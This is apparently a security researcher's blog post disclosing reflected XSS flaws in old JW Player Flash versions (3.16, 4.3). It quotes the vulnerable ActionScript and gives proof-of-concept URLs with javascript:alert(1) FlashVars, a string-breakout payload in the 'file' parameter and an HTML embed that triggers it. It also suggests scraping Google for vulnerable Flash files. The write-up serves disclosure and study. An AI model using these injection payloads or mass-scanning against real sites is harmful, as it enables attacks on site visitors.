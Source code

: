 ```yaml
---
layout: post
title: Fun with Flash
---
```

## Summary
JW Player v3.16 and v4.3 have an XSS vulnerability.  It's not serious, though, since it requires user interaction to cause the code to execute.

v3.16 POC:```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)```

v4.3 POC:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```


## Intro
In Frans Rosen’s [talk on bug bounties](https://www.youtube.com/watch?v=KDo68Laayh8), he recommends searching for Flash files, since a lot of them are vulnerable.  This piqued my interest, so I did some research.

## The Tools  
- [https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004)](https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004))
- To decompile Flash into Actionscript, use [JPEXS](https://www.free-decompiler.com/flash/download/).
- Adobe also made an app called [SWF Investigator](http://labs.adobe.com/technologies/swfinvestigator/).  In one of the tabs, it lists out all the vulnerable functions in the file.

## What’s wrong with Flash?
There are a lot of unsafe functions in Actionscript:

{% highlight actionscript %}
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load 
LoadVars.send 
XML.load ( 'url' )
LoadVars.load ( 'url' ) 
Sound.loadSound( 'url' , isStreaming ); 
NetStream.play( 'url' );
flash.external.ExternalInterface.call(_root.callback)
HtmlText
navigateToURL(request)
{% endhighlight  %}

The other issue is that you can add parameters (Flashvars) to the URL.  Combine these two issues and you can create reflected XSS attacks like this: ```https://mysite.com/player.swf?callback=javascript:alert(1)```.  

## Reflected XSS in JW Player
I came across a copy of JW Player 3.16 and found an XSS vulnerability.  Version 5 also had a few XSS vulns, which you can read about [here](https://nealpoole.com/blog/2013/04/unpatched-reflected-xss-in-jw-player-5/) and [here](https://packetstormsecurity.com/files/113332/JW-Player-5.9-Cross-Site-Scripting-Content-Spoofing.html).  They weren’t interested in doing hotfixes for old versions, but they are fixed in the current JWPlayer 7.8.

### v3.16
Anyways, for v3.16, you can find the source code here:
[https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16](https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16)

In ```ConfigManager.as```, we find these lines:

{% highlight actionscript %}
    public function goTo(obj,itm) {
        getURL(obj.ref.config['aboutlnk'],'_blank');
    };
{% endhighlight %}

The ```aboutlnk``` is a FlashVar.  ```getURL``` is an unsafe function that will run Javascript.  To get this to work you need to paste ```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)``` , right click to get the context menu, and then click the “About” option.  This works in Firefox v50.

### v4.3
I found a copy of [version v4.3](https://web.archive.org/web/20121226095419/http://developer.longtailvideo.com/trac/changeset/HEAD/tags/mediaplayer-4.3?old_path=%2F&format=zip) in the Internet Archive.  The vulnerability is still there.  

In ```Rightclick.as```:

{% highlight actionscript %}
	/** jump to the about page. **/
	private function aboutSetter(evt:ContextMenuEvent):void {
		navigateToURL(new URLRequest(view.config['aboutlink']),'_blank');
	};
{% endhighlight %}

In v4.3, they rewrote it in ActionScript 3.  So they use ```navigateToURL``` instead of ```getURL```, but it's still not a safe function to pass FlashVars to.  The FlashVar variable name also changed from ```aboutlnk``` to ```actionlink```.

This URL works in Firefox v50:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```

### v5.1

Out of curiousity, I checked [v5.1](https://web.archive.org/web/20110923000742/http://developer.longtailvideo.com/trac/changeset/1965/tags/mediaplayer-5.1.910?old_path=%2F&format=zip) and they finally fixed it by hardcoding the value.  

In ```Rightclick.as```:

{% highlight actionscript %}
/** jump to the about page. **/
		protected function aboutHandler(evt:ContextMenuEvent):void {
			navigateToURL(new URLRequest('http://www.longtailvideo.com/players/jw-flv-player'), '_blank');
		}
{% endhighlight %}

I contacted them about this, and asked if they were going to issue a patch or send out a bulletin.  They replied they didn't support old versions.


## Almost, but not quite
In this code, from ```CallbackView.as```, we see another example of how we can use FlashVars to make the Flash file run Javascript:

{% highlight actionscript %}
/** sending the current file,title,id,state,timestamp to callback **/
    private function sendVars(stt:String,dur:Number,cpl:Boolean) {
        clearInterval(playSentInt);
        if(config['callback'] == "urchin" || config['callback'] == "analytics") {
            var fil = feeder.feed[currentItem]["file"];
            var fcn = "javascript:pageTracker._trackPageview";
            if(config['callback'] == "urchin") {
                fcn = "javascript:urchinTracker";
            }
            if(fil.indexOf('http') != undefined) {
                fil = fil.substring(fil.indexOf('/',7)+1);
            }
            if(stt == "start") {
                getURL(fcn+"('/start_stream/"+fil+"');");
            } else if (stt == "stop" && cpl == true) {
                getURL(fcn+"('/end_stream/"+fil+"');");
            }
        } else {
            varsObject.file = feeder.feed[currentItem]["file"];
            varsObject.title = feeder.feed[currentItem]["title"];
            varsObject.id = feeder.feed[currentItem]["id"];
            varsObject.state = stt;
            varsObject.duration = dur;
            varsObject.sendAndLoad(config["callback"],varsObject,"POST");
        }
    };
{% endhighlight %}

Using the ```callback``` and ```file``` FlashVars, we can get the line 

{% highlight actionscript %}
getURL(fcn+"('/end_stream/"+fil+"');");
{% endhighlight %}
to execute.  


If we use ```?file=video.flv&callback=urchin```, it would fire off 
```
javascript:urchinTracker(‘end_stream/video.flv’);
```
but that would be pretty boring.  


By changing the ```file``` parameter, however, we can get it to execute custom Javascript.  

Example: 
```
file=video');alert(1);void('.flv. 
```

This would cause the browser to execute 
```
javascript:urchinTracker(‘end_stream/video’);alert(1):void(‘.flv’);
```

Unfortunately, this can’t be used for a reflected XSS attack, since the function ```urchinTracker``` isn’t there if you just pull up the swf file url.  Since the browser would try to execute the non-existent ```urchinTracker()_``` before ```alert()```, you'd get a runtime error.  The only way to exploit this would be if a page embedded the the file and also let you specify the flashvars in the url.

As an example, try putting the following in a webpage.  It will automatically play, stop, and pop an alert box.  It works in Firefox, Chrome, and Safari.

```html
function urchinTracker(){
}
 <object style="height:360px;width:640px;" data="mediaplayer.swf" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="file=video');alert(1);void('.flv&enablejs=true&callback=urchin&autostart=true" id="jstest" ></object> 
```

## Automate it
As with many things in security, finding these files and exploiting them can be tedious if you have to do it manually.  A better approach would be to write a script to scrape Google for the Flash files, download them, decompile them, and grep the unsafe function names.
